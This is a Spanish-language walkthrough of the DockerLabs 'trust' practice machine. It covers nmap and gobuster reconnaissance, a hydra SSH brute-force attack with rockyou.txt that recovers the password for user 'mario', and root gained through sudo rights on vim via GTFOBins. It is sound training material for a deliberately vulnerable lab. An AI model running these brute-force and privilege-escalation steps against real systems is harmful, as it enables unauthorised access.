






Vamos con la primera maquina de DockerLabs, una web reciente donde podemos ejecutar las maquinas en local con docker y que sea todo mucho mas rápido y optimizado.


Para poder ejecutar las maquinas necesitaremos instalar docker:

```bash
sudo apt install docker.io
```

 y para ejecutar las maquinas primero extraeremos el archivo zip que nos descargaremos de la web, a continuación entraremos en el directorio extraído y desplegaremos la maquina con el siguiente comando:
```bash
sudo bash auto_deploy.sh trust.tar
```

en caso de éxito nos mostrará el siguiente mensaje:

```bash
❯ sudo bash auto_deploy.sh trust.tar

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

hacemos un scan general con nmap:

```bash
❯ nmap -p- -Pn --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 19:10 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000099s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1.46 seconds
```

vemos que solo hay dos servicios, hacemos un escaneo mas profundo en los puertos encontrados:

```bash
❯ nmap -p22,80 -Pn -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 19:11 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00011s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.17 seconds
```

obtenemos que es una web con Apache, vamos a echar un vistazo:



hacemos una enumeración web con gobuster y obtenemos los siguientes resultados:

```bash
❯ gobuster dir -u http://172.17.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,xml,json
```




vamos a ver que hay en el directorio secret.php:



la web solo muestra este mensaje que de primeras me da a pensar que hay un ussuario llamado mario, en el codigo fuente tampoco encontramos nada, asi que apuntaremos al servicio ssh con un atauqe de fuerza bruta probando el usuario mario con el rockyou.txt:

```bash
❯ hydra -l mario -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh
```

y nos da un caso exitoso:



el usuario **mario** si existe y la contraseña es **chocolate**

vamos a conectarnos al ssh:

```bash
❯ ssh mario@172.17.0.2
mario@172.17.0.2s password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Mar 20 09:54:46 2024 from 192.168.0.21
mario@2a9f78d555d6:~$ 
```
En DockerLabs no hay flags por lo que para concluir la maquina tenemos que obtener root, asi que vamos a enumerar los privilegios que tenemos como mario:

```bash
mario@2a9f78d555d6:~$ sudo -l
[sudo] password for mario: 
Matching Defaults entries for mario on 2a9f78d555d6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 2a9f78d555d6:
    (ALL) /usr/bin/vim
mario@2a9f78d555d6:~$ 
```

tenemos permisos sudo para vim, consultamos en la pagina [GTFOBins](https://gtfobins.github.io/) 



usamos la opción (a) y nos da root



Con esto ya hemos comprometido la maquina.

